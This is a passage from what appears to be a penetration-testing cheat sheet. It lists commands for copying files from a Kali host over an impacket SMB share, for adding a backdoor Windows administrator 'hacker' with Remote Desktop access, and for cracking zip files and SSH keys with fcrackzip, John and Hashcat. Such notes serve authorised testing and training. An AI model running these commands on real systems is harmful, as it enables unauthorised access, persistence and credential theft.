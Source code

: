 ```powershell
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```

## Adding Users

### Windows

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```

### Linux

```powershell
adduser <uname> #Interactive
useradd <uname>

useradd -u <UID> -g <group> <uname>  #UID can be something new than existing, this command is to add a user to a specific group
```

## Password-Hash Cracking

*Hash Analyzer*: [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) 

### fcrackzip

```powershell
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <FILE>.zip #Cracking zip files
```

### John

> [https://github.com/openwall/john/tree/bleeding-jumbo/run](https://github.com/openwall/john/tree/bleeding-jumbo/run)
> 
- If there’s an encrypted file, convert it into john hash and crack.

```powershell
ssh2john.py id_rsa > hash
#Convert the obtained hash to John format(above link)
john hashfile --wordlist=rockyou.txt
```

### Hashcat

> [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
> 
